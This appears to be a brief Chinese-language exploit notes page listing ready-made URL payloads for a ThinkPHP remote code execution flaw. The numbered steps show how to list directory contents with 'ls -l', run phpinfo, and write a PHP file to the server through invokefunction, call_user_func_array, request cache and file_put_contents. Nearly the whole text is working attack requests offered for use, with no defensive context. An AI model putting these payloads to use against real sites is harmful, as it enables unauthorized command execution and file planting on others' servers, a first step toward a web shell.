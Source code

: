 

1、执行漏洞显示目录下文件，可构造如下 payload

http://www.test.com/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20-l


http://www.test.com/public/index.php?s=/index/\think\request/cache&key=ls%20-l|system

2、执行phpinfo,可构造如下payload

http://www.test.com/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=php%20-r%20'phpinfo();'


http://www.test.com/public/index.php?s=/index/\think\request/cache&key=1|phpinfo

3、写info.php文件，如下payload


http://www.test.com/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20%27<?php%20phpinfo();?>%27%20>%20info.php

http://www.test.com/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=info.php&vars[1][]=%3C?php%20phpinfo();?%3E

